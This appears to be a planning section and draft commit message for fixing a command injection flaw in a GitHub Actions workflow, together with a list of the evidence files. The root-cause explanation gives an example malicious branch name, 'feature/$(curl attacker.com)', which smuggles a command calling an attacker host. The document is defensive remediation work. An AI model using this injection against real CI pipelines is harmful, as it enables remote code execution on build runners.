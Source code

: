 ## 10. Evidence Collection Plan

### Directory Structure
```
docs/test-evidence/review-3310877004/
├── security-vulnerability-analysis.txt
├── command-injection-before-after.txt
├── shell-syntax-validation.txt
├── pattern-search-results.txt
├── documentation-fix.txt
└── fixes-summary.txt
```

### Evidence Items
1. **Security Analysis:** Vulnerability details, attack vector, CVE class
2. **Before/After:** Code comparison showing vulnerable vs secure
3. **Shell Validation:** Syntax check, environment variable verification
4. **Pattern Search:** Search results for similar vulnerabilities
5. **Documentation Fix:** Evidence file correction
6. **Summary:** Complete fix description with security context

---

## 11. Commit Strategy

### Commit Message
```
fix(security): Prevent command injection via branch names - Review #3310877004

### Issues Addressed
- [Critical] Shell command injection via branch names (.github/workflows/gdd-repair.yml:112-117)
- [Minor] Evidence file inconsistent with narrative (docs/test-evidence/review-3310711738/artifact-upload-fix.txt)

### Security Vulnerability
- CWE-78: OS Command Injection
- CVSS: 9.8 (Critical) - Hypothetical
- Attack Vector: Malicious branch name executes arbitrary code
- Impact: RCE in GitHub Actions runner

### Root Cause
- GitHub Actions expression ${{ github.head_ref || github.ref_name }} interpolated into shell
- Shell re-evaluates expression, allows command substitution
- Branch name like feature/$(curl attacker.com) executes curl command

### Fix Applied
- Replace GitHub Actions expression with environment variables
- Use ${GITHUB_HEAD_REF:-$GITHUB_REF_NAME} (safe bash parameter expansion)
- No shell re-evaluation, command substitution treated as literal string

### Security Impact
- ✅ Prevents Remote Code Execution (RCE)
- ✅ Eliminates command injection attack vector
- ✅ Safe for all branch names (including malicious)
- ✅ Maintains workflow functionality

### Documentation Fix
- Updated artifact-upload-fix.txt to reflect actual workflow state
- Aligned evidence with code (kept "Fail if errors occurred" step)

### Testing
- Validated shell syntax
```